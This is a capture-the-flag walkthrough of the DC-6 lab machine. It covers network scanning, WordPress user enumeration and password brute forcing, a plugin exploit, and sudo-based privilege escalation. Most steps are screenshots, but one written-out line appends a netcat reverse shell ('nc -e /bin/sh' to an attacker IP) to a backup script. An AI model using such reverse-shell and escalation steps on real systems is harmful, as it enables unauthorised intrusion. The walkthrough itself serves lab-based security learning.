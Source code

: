 

### **Netdiscover**

![netdiscover](images/dc6/netdiscover.png)

We use the tools called netdiscover scan hosts, we found the 192.168.0.141 is our target virtualbox host ip.

------

### **Namp**

![nmap](images/dc6/nmap.png)

We found some services  <u>HTTP</u>, <u>SMB</u>, <u>MYSQL</u> 

------

### Solution

![scan](images/dc6/index.png)

This a website powered by wordpress, so we use wpscan to do it.

![user](images/dc6/user.png)

Found these users: admin, mark, graham, sarah , jens.but no clues, so we only use password dictionary to brute force it

![sarah](images/dc6/sarah.png)

![graham](images/dc6/graham.png)

![mark](images/dc6/mark.png)

We found mark' password ==> helpdesk01, so we login in admin page.

![manage](images/dc6/manage.png)

search a while, but nothing adout templates found, so we decided to search activity monitor with google.

![google](images/dc6/google.png)

![exploit](images/dc6/exploit.png)

So we insead ip in pictures with our ip, open html in broswer

![nc1](images/dc6/nc1.png)

![www-data](images/dc6/www-data.png)

Let's look /home directory file and folder.

![ls](images/dc6/ls.png)

Wo found backups.sh and stuff folder may be a clue.

According to the things-to-do.txt, we found graham's password

![txt](images/dc6/txt.png)

So We ssh with user graham.

![ssh-graham](images/dc6/ssh-graham.png)

look with graham wether has a sudo privilege.

![sudo1](images/dc6/sudo1.png)

So we append a command to this backups.sh.

 `echo 'nc -e /bin/sh 192.168.0.104 9999'`

`sudo -u jens ./backups.sh`

![nc2](images/dc6/nc2.png)

ook with jens wether has a sudo privilege.

![sudo2](images/dc6/sudo2.png)

So let's use nmap script to escalate root privilege.

![namp_escalate](images/dc6/namp_escalate.png)

![flag](images/dc6/flag.png)

Successfully!!!!

------

**That' all , Thanks for your watching**